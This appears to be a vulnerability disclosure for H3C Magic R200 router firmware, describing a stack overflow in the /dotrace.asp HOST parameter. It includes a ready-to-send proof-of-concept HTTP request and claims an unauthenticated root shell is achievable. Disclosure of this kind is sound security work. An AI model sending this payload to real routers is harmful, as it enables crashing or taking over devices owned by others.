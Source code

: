 # H3C magic R200 R200V200R004L02.bin  Stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202012/1361151_30005_0.htm

## Affected version

![image-20220624224706073](img/image-20220624224706073.png)

The figure above shows the latest firmware.

## Vulnerability details

![image-20220625215857494](img/image-20220625215857494.png)

The data between "HOST=" and "&" is copied to the V10 array through the strncpy function, which causes stack overflow without limiting the size of the copy.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware R200V200R004L02.bin
2. Attack with the following POC attacks

```
GET /dotrace.asp?HOST=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&INTF=AUTO& HTTP/1.1
Host: 192.168.124.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.124.1/maintain_diag.asp
Cookie: LOGIN_PSD_REM_FLAG=; PSWMOBILEFLAG=; LOGINCOUNT=; USERLOGINIDFLAG=
Upgrade-Insecure-Requests: 1
```

![image-20220624230619282](img/image-20220624230619282.png)

 The above figure shows the POC attack effect 

Finally, you can write exp, which can obtain a stable root shell without authorization

![image-20220625212658320](img/image-20220624231746994.png)


